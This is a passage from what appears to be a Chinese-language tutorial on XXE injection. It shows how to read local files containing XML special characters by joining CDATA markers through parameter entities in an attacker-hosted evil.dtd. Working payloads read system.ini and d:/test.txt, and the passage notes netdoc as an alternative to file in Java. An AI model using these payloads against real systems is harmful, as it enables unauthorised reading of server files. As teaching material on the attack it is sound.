 
   那我们把我们的读出来的数据放在 CDATA 中输出就能进行绕过，但是怎么做到，我们来简答的分析一下：

   首先，找到问题出现的地方，问题出现在

   ```xml
   ...
   <!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
   <creds>&goodies;</creds>
   ```

   引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,”,’等。这些均需要对其进行转义，否则会对XML解释器生成错误)，我们想在引用的两边加上 `<![CDATA[“和 “]]>`,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法

   **结果如下图：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%AE%9E%E4%BD%93%E8%BF%9E%E7%BB%AD%E5%BC%95%E7%94%A8.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%AE%9E%E4%BD%93%E8%BF%9E%E7%BB%AD%E5%BC%95%E7%94%A8.png)

   注意，这里面的三个实体都是字符串形式，连在一起居然报错了，这说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，那么要想在 DTD
   中拼接，我们知道我们只有一种选择，就是使用 参数实体

   **payload:**

   ```xml
   <?xml version="1.0" encoding="utf-8"?> 
   <!DOCTYPE roottag [
   <!ENTITY % start "<![CDATA[">   
   <!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
   <!ENTITY % end "]]>">  
   <!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
   %dtd; ]> 
   
   <roottag>&all;</roottag>
   ```

   **evil.dtd**

   ```dtd
   <?xml version="1.0" encoding="UTF-8"?> 
   <!ENTITY all "%start;%goodies;%end;">
   ```

   **结果如下图：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E8%AF%BB%E5%8F%96%E7%89%B9%E6%AE%8A%E6%96%87%E4%BB%B6%E6%88%90%E5%8A%9F.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E8%AF%BB%E5%8F%96%E7%89%B9%E6%AE%8A%E6%96%87%E4%BB%B6%E6%88%90%E5%8A%9F.png)

   感兴趣的童鞋可以分析一下整个调用过程，因为我在下面的例子中有分析一个类似的例子，于是出于篇幅考虑我这里就不分析了。

   > **注意：**
   >
   > 这里提一个点，如果是在 java 中 还有一个协议能代替 file 协议 ，那就是 netdoc ，使用方法我会在后面的分析 微信的 XXE
   > 的时候顺带演示

   ### **新的问题出现**
